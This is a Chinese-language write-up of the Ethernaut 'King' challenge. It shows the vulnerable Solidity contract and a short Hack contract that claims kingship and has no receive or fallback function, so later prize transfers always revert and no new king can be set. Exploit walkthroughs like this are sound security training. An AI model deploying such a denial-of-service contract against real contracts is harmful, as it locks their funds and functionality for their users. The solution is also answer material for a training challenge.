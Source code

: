 # Ethernaut 09-King

## 本关目标

- 让 King 合约不能再设置新的 king

## 合约分析

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
    owner = msg.sender;
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    // 只要转账金额大于之前的prize或者是owner，就可以继续
    require(msg.value >= prize || msg.sender == owner);
    // 使用transfer进行转账，如果转账失败会抛出错误
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address) {
    return king;
  }
}
```

## 解决方案

1. 使用 Hack 合约向 King 合约转账，且金额等于 prize，Hack 中不存在 receive()和 fallback()
2. 这样当有新的 king 要生效时，会向 Hack 转账，但是转账永远不会成功，一直抛出错误，无法继续声明新 king

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "./King.sol";

contract Hack {
    King public immutable king;

    // 部署时传入King实例的地址
    constructor(address payable _target) payable{
        king = King(_target);
    }

    function hack() public payable{
        (bool success,) = address(king).call{value: king.prize()}("");
        require(success, "pay failed!");
    }
}
```

